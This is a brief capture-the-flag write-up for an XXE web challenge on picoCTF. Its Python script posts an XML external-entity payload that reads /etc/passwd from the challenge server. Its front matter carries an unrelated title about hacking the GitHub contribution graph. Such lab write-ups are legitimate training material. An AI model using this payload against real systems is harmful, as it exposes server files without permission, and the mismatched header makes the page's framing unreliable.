 ```yaml
---
title: How to hack GitHub contribution graph
published: Apr 1, 2023
language: English
---
```


**100 points**

AUTHOR: GEOFFREY NJOGU

Description
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
Additional details will be available after launching your challenge instance.

---

using this python script you can get the flag by sending a request using python

```python
import requests

headers = {
    'Host': 'saturn.picoctf.net:port',
    # 'Content-Length': '126',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36',
    'Content-Type': 'application/xml',
    'Accept': '/',
    'Origin': 'http://saturn.picoctf.net:port/',
    'Referer': 'http://saturn.picoctf.net:port/',
    # 'Accept-Encoding': 'gzip, deflate',
    'Accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
    'Connection': 'close',
}

data = '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]><data><ID>&example;1</ID></data>'

response = requests.post('http://saturn.picoctf.net:port/data', headers=headers, data=data, verify=False)

print(response)
```

And we can see flag in the repsonse:

> picoCTF{your flag}

